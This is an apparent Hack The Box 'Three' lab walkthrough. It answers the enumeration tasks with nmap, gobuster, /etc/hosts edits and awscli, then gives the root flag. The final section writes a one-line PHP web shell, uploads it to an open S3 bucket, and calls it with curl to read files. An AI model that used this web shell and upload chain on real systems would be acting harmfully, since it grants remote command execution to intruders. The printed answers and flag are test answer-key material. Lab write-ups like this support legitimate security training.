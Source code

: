 # Three - Very Easy

IP = 10.129.65.188

## Task 1 - How many TCP ports are open?

```bash
nmap -sV $IP
```

> Answer:
> 2

## Task 2 - What is the domain of the email address provided in the "Contact" section of the website?

> Answer:
> thetoppers.htb

## Task 3 - In the absence of a DNS server, which Linux file can use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

> Answer:
> /etc/hosts

```bash
echo "$IP thetoppers.htb" | sudo tee -a /etc/hosts
```

## Task 4 - Which sub-domain is discovered during futher enumeration?

```bash
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$IP
```

> Answer:
> s3.thetoppers.htb

```bash
echo "$IP s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

## Task 5 - Which service is runnig on the discovered sub-domain?

> Answer:
> Amazon s3

## Task 6 - Which command line utility can be used to interact with the service running on the discovered sub-domain?

> Answer:
> awscli

## Task 7 - Which command is used to set up the AWS CLI installation?

> Answer:
> aws configure

## Task 8 - What is the command used by the above utility to list all of the S· buckets?

> Answer:
> aws s3 ls --endpoint=http://s3.thetoppers.htb

## Task 9 - This server is configured to run files written in what web scripting language?

> Answer:
> PHP

## Submit flag - Submit root flag

```bash
# Create a RCE 
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Upload the RCE
aws s3 cp shell.php s3://thetoppers.htb --endpoint=http://s3.thetoppers.htb

# Execute the shell
curl http://thetoppers.htb/shell.php?cmd=cat%20/var/www/flag.txt
```

> Answer:
> a980d99281a28d638ac68b9bf9453c2b
